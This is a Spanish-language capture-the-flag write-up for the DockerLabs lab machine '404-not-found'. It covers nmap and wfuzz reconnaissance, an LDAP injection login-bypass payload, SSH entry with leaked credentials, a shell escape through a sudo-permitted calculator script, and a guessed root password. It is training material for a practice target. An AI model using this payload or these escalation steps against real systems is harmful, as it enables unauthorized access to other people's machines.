





# 404-not-found

Maquina `404-not-found` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sat Aug 24 15:03:05 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 59:4e:10:e2:31:bf:13:43:c9:69:9e:4f:3f:a2:95:a6 (ECDSA)
|_  256 fb:dc:ca:6e:f5:d6:5a:41:25:2b:b2:21:f1:71:16:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://404-not-found.hl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 24 15:03:15 2024 -- 1 IP address (1 host up) scanned in 10.07 seconds

```

Al parecer hay un dominio llamado `404-not-found.hl`, por lo que lo tenemos que agregar en `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl
```

Una vez hecho esto continuaremos por el navegador ya que el escaneo no nos dice mas nada.

#### PUERTO 80



Luego de revisar un rato y usar gobuster no encontré nada mas que una "clave" en `/participar.html`;que realmente era un mensaje en base64 que dice _"Que haces?, mira en la URL."_. Según el mensaje dice que tenemos que mirar la URL, por lo que podriamos intentar buscar _subdominios_ con wfuzz de la siguiente manera:

```css
wfuzz --hl 9 -w <WORDLIST> -u "http://404-not-found.hl" -H "Host: FUZZ.404-not-found.hl"
```

```css
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://404-not-found.hl/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================
000000085:   200        149 L    152 W      2023 Ch     "info"
```

como vemos, hay un _subdominio_ "info" en el cual lo agregamos al `/etc/hosts` de la siguiente manera:

```css
$IP 404-not-found.hl info.404-not-found.hl
```

Esto para que podamos entrar desde el navegador.

Una vez que entramos a `info.404-not-found.hl` vemos lo siguiente: 

Luego de revisar un poco el codigo fuente, se ve en el final lo siguiente:

```css
<!-- I believe this login works with LDAP -->
```

Por lo que si buscamos `LDAP injection`, podemos probar si alguno de la página funciona(en mi caso me funcionó esta [página](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) con `admin*)(uid=*))(|(uid=*`). Una vez probado estaremos dentro y nos da un usuario y contraseña del ssh:



## INTRUSION

Ahora nos conectamos mediante ssh con las credenciales que tenemos y listo. _ya estamos dentro_

## ESCALADA DE PRIVILEGIOS

#### 404-page

Una vez dentro podemos probar un `sudo -l` y vemos lo siguiente:

```css
(200-ok : 200-ok) /home/404-page/calculator.py
```

Intentamos leerlo sin exito pero al ejecutarlo tampoco se ve nada que podamos aprovechar. Ahora intentaremos buscar si hay algún mensaje en un ".txt" ejecutando:

```css
find / -name "*.txt" 2>/dev/null
```

```css
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/dbus_python-1.3.2.egg-info/top_level.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/entry_points.txt
/usr/lib/python3/dist-packages/distro-1.9.0.dist-info/top_level.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/dependency_links.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/entry_points.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/requires.txt
/usr/lib/python3/dist-packages/ssh_import_id-5.11.egg-info/top_level.txt
/usr/lib/python3.12/LICENSE.txt
/usr/share/perl/5.38.2/Unicode/Collate/allkeys.txt
/usr/share/perl/5.38.2/Unicode/Collate/keys.txt
/usr/share/perl/5.38.2/unicore/Blocks.txt
/usr/share/perl/5.38.2/unicore/NamedSequences.txt
/usr/share/perl/5.38.2/unicore/SpecialCasing.txt
/var/www/nota.txt
```

Como vemos si hay una nota, y al leerla nos dice _"En la calculadora no sé para qué se usa el símbolo "!" seguido de algo más, sólo 200-ok lo sabe."_. Sabiendo esto podriamos intentar ejecutar la calculadora nuevamente con `sudo -u 200-ok /home/404-page/calculator.py` pero en vez de poner numeros, ponemos `!bash` y ya escalamos de usuario.

#### 200-ok

Nuevamente intentamos ejecutar `sudo -l` pero como no tenemos la contraseña descartamos la opción.

Al irnos a nuestra home vemos una flag y un archivo llamado "boss.txt" que dice _"¿Qué es rooteable?"_, podemos intentar usar _"rooteable"_ como contraseña para root, por lo que ejecutamos `su root` y ponemos la contraseña y listo, _ya somos root_.



Adiós.
